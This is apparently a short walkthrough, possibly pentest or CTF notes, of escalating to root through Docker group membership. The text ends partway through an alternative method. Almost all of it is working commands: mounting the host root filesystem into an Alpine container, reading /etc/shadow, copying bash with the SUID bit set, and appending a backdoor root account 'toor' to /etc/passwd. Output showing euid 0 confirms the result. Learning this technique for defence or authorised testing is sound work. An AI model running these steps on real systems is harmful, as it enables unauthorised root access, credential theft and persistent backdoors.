 Mount the root file system to the container's /mnt directory:

```bash
docker run -v /:/mnt -it alpine /bin/sh
```

Options:
- -v = volume
- -it = interactive terminal
- alpine = docker image

Alpine is 5MB in size:

```bash
/ # id
/ # hostname
/ # ls
/ # cd /mnt
/mnt # ls -la
/mnt # cat /mnt/etc/shadow
```

Add an SUID bit to bash:

```
/mnt # cp /mnt/usr/bin/bash /mnt/home/user/bash
/mnt # chmod u+s /mnt/home/user/bash
```

Create a new terminal in your host from the docker container and generate a hash:

```shell
user@pwn:~$ openssl passwd -1 password
$1$xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

Add a new root user:

```shell
echo 'toor:$1$xxxxxxxxxxxxxxxxxxxxxxxx:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
```

Exit from the container:

```bash
/mnt # exit
```

Escalate privileges to root with SUID bash by passing the `-p` flag:

```bash
user@pwn:~$ /home/user/bash -p
bash-5.0# id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),132(lxd),133(sambashare),134(docker)
bash-5.0# exit
exit
```

Alternatively, escalate with the new root user and the previously generated password:
